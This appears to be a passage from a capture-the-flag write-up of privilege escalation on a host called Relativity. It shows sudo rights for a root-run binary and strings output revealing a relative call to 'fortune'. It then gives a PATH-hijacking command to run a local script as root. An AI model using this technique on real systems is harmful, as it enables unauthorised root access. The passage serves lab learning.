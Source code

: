 ```bash
    requiretty, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME
    LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY PATH", env_reset

User jetta may run the following commands on this host:
    (root) NOPASSWD: /home/jetta/auth_server/auth_server
```

The binary seems to be executing some certificates checks and output a message through `cowsay`.

We see that we can run the `auth_server` binary as `root` without providing any password:

```bash
sudo ./auth_server
```

Moreover:

```bash
[jetta@Relativity auth_server]$ strings auth_server
/lib64/ld-linux-x86-64.so.2
__gmon_start__
libc.so.6
fflush
puts
putchar
printf
poll
stdout
system
__libc_start_main
GLIBC_2.2.5
l$ L
t$(L
|$0H
[+] Checking Certificates...
done
[+] Contacting server, please wait...
could not establish connection
invalid certificates
error: (12)
fortune -s | /usr/bin/cowsay
Starting Auth server..
;*3$"
```

We can see that the call for `fortune` is not absolute path, so we can change the binary by modifying the path:


We can change the path to use the "local" fortune script this way:

```bash
PATH=/home/jetta:$PATH ./auth_server
```
